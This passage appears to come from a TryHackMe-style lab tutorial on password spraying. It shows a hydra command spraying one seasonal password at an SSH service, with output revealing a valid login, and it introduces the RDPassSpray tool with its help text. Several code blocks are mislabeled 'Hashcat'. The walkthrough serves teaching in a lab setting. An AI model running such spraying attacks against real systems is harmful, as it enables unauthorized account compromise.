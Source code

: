 - SSH
- RDP
- Outlook web access (OWA) portal
- SMB

### SSH

Assume that we have already enumerated the system and created a valid username list.

- **Hashcat**        

```shell
user@THM:~# cat usernames-list.txt
admin
victim
dummy
adm
sammy

        
```

Here we can use hydra to perform the password spraying attack against the SSH service using the Spring2021 password.

- **Hashcat**        

```shell
user@THM:~$ hydra -L usernames-list.txt -p Spring2021 ssh://10.1.1.10
[INFO] Successful, password authentication is supported by ssh://10.1.1.10:22
[22][ssh] host: 10.1.1.10 login: victim password: Spring2021
[STATUS] attack finished for 10.1.1.10 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found

        
```

Note that L is to load the list of valid usernames, and -p uses the Spring2021 password against the SSH service at 10.1.1.10. The above output shows that we have successfully found credentials.

### RDP

Let's assume that we found an exposed RDP service on port 3026. We can use a tool such as [RDPassSpray](https://github.com/xFreed0m/RDPassSpray) to password spray against RDP. First, install the tool on your attacking machine by following the  installation instructions in the tool’s Github repo. As a new user of  this tool, we will start by executing the python3 RDPassSpray.py -h command to see how the tools can be used:

Hashcat        

```shell
user@THM:~# python3 RDPassSpray.py -h
usage: RDPassSpray.py [-h] (-U USERLIST | -u USER  -p PASSWORD | -P PASSWORDLIST) (-T TARGETLIST | -t TARGET) [-s SLEEP | -r minimum_sleep maximum_sleep] [-d DOMAIN] [-n NAMES] [-o OUTPUT] [-V]

optional arguments:
  -h, --help            show this help message and exit
  -U USERLIST, --userlist USERLIST
                        Users list to use, one user per line
  -u USER, --user USER  Single user to use
  -p PASSWORD, --password PASSWORD
                        Single password to use
  -P PASSWORDLIST, --passwordlist PASSWORDLIST
                        Password list to use, one password per line
  -T TARGETLIST, --targetlist TARGETLIST
                        Targets list to use, one target per line
  -t TARGET, --target TARGET
                        Target machine to authenticate against
  -s SLEEP, --sleep SLEEP
```